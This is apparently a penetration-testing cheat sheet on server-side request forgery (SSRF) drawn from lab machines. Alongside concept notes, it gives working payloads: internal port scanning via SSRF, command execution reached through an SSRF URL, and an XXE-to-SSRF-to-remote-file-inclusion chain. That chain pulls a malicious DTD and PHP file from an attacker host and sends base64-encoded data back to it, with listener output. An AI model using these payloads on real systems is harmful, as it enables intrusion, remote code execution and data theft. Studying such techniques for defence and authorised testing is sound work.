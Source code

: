 #### 1.1. About SSRF

- somewhat similar to File Inclusion, but attack vectors require that the target will internally process URLs/HTTP requests
- this attack will most likely have a higher impact on internal network / localhost
- helps with internal port scanning (where services might be firewalled - aka XSPA)
- helps with internal (sub)domain and IPs/hosts discovery
  - Docker default: `172.17.0.1-254`
  - `http://site.com/?url=https://172.17.0.105:1234` - where `1234` is an open HTTP port (expected error: `SSL23_GET_SERVER_HELLO`; to avoid time-out error)
  - first enumerate common ports on existing internal IP address
- could be limited to internal URLs only (`*.domain.com`)
- SSRF can be used to download remote malicious files and depending on server misconfiguration (`.php`) files can be executed
- can be used to leak information / administrative interfaces / internal services
- allows interaction with internal services that are not supposed to be exposed


#### 1.2. Readme

```
https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM
https://github.com/jdonsec/AllThingsSSRF
```

#### 1.3. URL handlers

- `file://, http://, https://` (most common)
- `file:///proc/self/cwd/../config/` (Java)
- `gopher://, dict://, php://, jar://, tftp://`

More: `https://www.iana.org/assignments/uri-schemes/uri-schemes.xhtml`

#### 1.4. Detection

Manual detection:
```
$ http "http://$target/url.php?path=http://localhost:22" -b
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2
Protocol mismatch.

$ $ http "$target/url.php?path=http://localhost:8080" -b
<!DOCTYPE html><html><head><title>Apache Tomcat/8.5.5 - Error report</title>
....
```


WFUZZ port scanning via SSRF:
```
# docker run --rm -it wfuzz -z range,0-65535 --hh 2 $target/url.php?path=http://localhost:FUZZ
```

SSRF with ping command:
```
$ http $target/test.asp?u=http%3a//localhost%3a80/cmd.aspx%3fxcmd%3dping+-n+1+10.10.14.13
$ sudo tcpdump -i tun0 icmp 2>/dev/null
06:30:29.301733 IP 10.10.10.57 > 10.10.14.13: ICMP echo request, id 1, seq 9, length 40
06:30:29.301754 IP 10.10.14.13 > 10.10.10.57: ICMP echo reply, id 1, seq 9, length 40
```

#### 1.5. XXE + SSRF + RFI = RCE

XXE Request:
```
$ cat req.xml
<?xml version="1.0" ?>
<!DOCTYPE data SYSTEM "http://10.10.14.13:9999/DTD">
<data>&trigger;</data>
$ http POST 10.10.10.62:56423 @req.xml
```

Local DTD:
```xml
<!ENTITY % f SYSTEM "php://filter/convert.base64-encode/resource=http://127.0.0.1:4/index.php?page=http://10.10.14.13:9999/x>
<!ENTITY % all "<!ENTITY trigger SYSTEM 'http://10.10.14.13:9999/?%f;'>">
%all;
```
Note: `http://127.0.0.1:4/index.php?page=http://10.10.14.13:9999/x` will do SSRF on `http://127.0.0.1:4` for RFI.

Local PHP that will execute remotely via XXE + SSRF:
```
$ cat x.php
<?php echo system("whoami");
```

Listener:
```
$ python2.7 -m SimpleHTTPServer 9999
Serving HTTP on 0.0.0.0 port 9999 ...
10.10.10.62 - - [NOLOGS] "GET /DTD HTTP/1.0" 200 -
10.10.10.62 - - [NOLOGS] "GET /x.php HTTP/1.0" 200 -
10.10.10.62 - - [NOLOGS] "GET /?d3d3LWRhdGEKd3d3LWRhdGEK HTTP/1.0" 200 -
```
Note: B64 decodes to `www-data / www-data`
